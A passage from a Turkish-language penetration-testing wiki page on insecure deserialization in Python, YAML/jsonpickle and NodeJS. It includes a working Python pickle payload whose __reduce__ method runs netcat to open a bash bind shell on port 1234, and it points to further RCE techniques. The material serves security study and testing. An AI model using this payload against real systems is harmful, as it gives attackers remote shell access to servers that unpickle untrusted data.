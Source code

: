 
{{#ref}}
../file-inclusion/phar-deserialization.md
{{#endref}}

## Python

### **Pickle**

Nesne unpickle edildiğinde, fonksiyon \_\_\_reduce\_\_\_ çalıştırılacaktır.\
Kötüye kullanıldığında sunucu bir hata döndürebilir.
```python
import pickle, os, base64
class P(object):
def __reduce__(self):
return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```
Bypass tekniğini kontrol etmeden önce, python3 çalıştırıyorsanız python2 ile uyumlu bir obje üretmek için `print(base64.b64encode(pickle.dumps(P(),2)))` kullanmayı deneyin.

Daha fazla bilgi için **pickle jails**'ten kaçış hakkında bakın:


{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/
{{#endref}}

### Yaml **&** jsonpickle

Aşağıdaki sayfa, yamls python kütüphanelerinde güvensiz deserialization'ı suistimal etme tekniğini anlatır ve **Pickle, PyYAML, jsonpickle ve ruamel.yaml** için RCE deserialization payload oluşturmakta kullanılabilecek bir araçla sona erer:


{{#ref}}
python-yaml-deserialization.md
{{#endref}}

### Class Pollution (Python Prototype Pollution)


{{#ref}}
../../generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.md
{{#endref}}

## NodeJS

### JS Magic Functions

JS, PHP veya Python gibi sadece bir obje oluşturulması için yürütülecek **"magic" fonksiyonlara sahip değildir.** Ancak `toString`, `valueOf`, `toJSON` gibi doğrudan çağrılmasalar bile sıkça kullanılan bazı **fonksiyonlara** sahiptir.\
Eğer bir deserialization'ı suistimal ederseniz, bu fonksiyonları diğer kodları yürütmek üzere ele geçirerek (muhtemelen prototype pollutions'ı suistimal ederek) çağrıldıklarında rastgele kod çalıştırabilirsiniz.
